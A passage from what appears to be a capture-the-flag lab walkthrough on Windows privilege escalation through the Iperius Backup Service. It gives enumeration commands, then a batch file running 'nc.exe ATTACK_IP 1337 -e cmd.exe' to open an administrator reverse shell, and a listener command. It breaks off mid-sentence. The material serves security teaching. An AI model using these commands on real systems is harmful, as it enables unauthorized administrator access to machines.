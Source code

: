 >>Users on the target system. The net users command will list users on the target system.

>>OS version: The systeminfo | findstr /B /C: "OS Name"/C: "OS Version" command will output information about the operating system. This should be used to do further research on whether a privilege escalation vulnerability exists for this version.

>>Installed services: the wmic service list command will list services installed on the target system

>>In a real engagement, you should follow the more extensive list of commands provided in our Windows Privilege Escalation Room.

## Exploitation

>>The Iperius Backup Service suffers from a privilege escalation vulnerability. McSkidy could use it to elevate her privileges on the system. When Iperius Backup is installed as a service, it can be configured to run backup tasks with administrator privileges even if the current user has a lower privilege level.

>>Let's explore the exploitation steps:

1) Create a new backup task: The task itself is not important. You can set the backup path as C:\Users\McSkidy\Documents

2) Set the destination: From the destination tab, you can set the location where the backup will be written. Again, this is not important; you can set it to C:\Users\McSkidy\Desktop

3) Other processes: The "other processes" tab is important. As you can see, this gives us the option to set a program to run before or after every backup process. As the backup process is ran with administrator privileges, any program or external file configured here will be ran with administrator privileges. To exploit this, we will create a simple bat file and set it to run before the backup.

The .bat file will launch a shell using the nc.exe utility (conveniently located at C:\Users\McSkidy\Downloads\nc.exe). Launch the Notepad text editor and enter the following lines of code.

```
@echo off

C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe
```
You will need to replace "ATTACK_IP" with your attacking machine's IP address; we recommend starting the AttackBox (blue button at the top of this page).

You can save the file as evil.bat on the desktop of the target system (MACHINE_IP) and select it by enabling the "run a program or open external file" option. Click OK, and you should see a backup job named "documents" on the Iperius dashboard.

4) Launch a listener: The evil.bat file will launch cmd.exe and connect back to our attacking machine on port 1337. We should have a listener ready to accept this incoming connection. You can launch ncon your attacking machine with the nc -nlvp 1337 command.

5) Run as service: Right-click on the "document" backup job previously created and select the "Run backup as service option".

6) Have a shelly Christmas! Within a minute or so, you should see an incoming connection on your attack

----
